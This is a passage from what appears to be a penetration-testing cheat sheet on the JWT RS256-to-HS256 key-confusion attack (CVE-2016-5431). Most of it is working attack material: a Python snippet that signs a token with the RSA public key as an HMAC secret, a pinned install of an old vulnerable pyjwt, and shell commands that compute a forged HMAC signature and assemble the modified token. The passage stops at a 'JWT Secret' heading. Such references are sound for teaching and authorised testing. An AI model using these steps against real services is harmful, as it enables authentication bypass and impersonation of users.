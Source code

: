 ## JWT Signature - RS256 to HS256 (CVE-2016-5431)

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data.

> The algorithm **HS256** uses the secret key to sign and verify each message.
> The algorithm **RS256** uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

Here are the steps to edit an RS256 JWT token into an HS256

1. Convert our public key (key.pem) into HEX with this command.

    ```powershell
    $ cat key.pem | xxd -p | tr -d "\\n"
    2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
    ```

2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

    ```powershell
    $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a

    (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
    ```

3. Convert signature (Hex to "base64 URL")

    ```powershell
    $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
    ```

4. Add signature to edited payload

    ```powershell
    [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
    ```

## JWT Secret
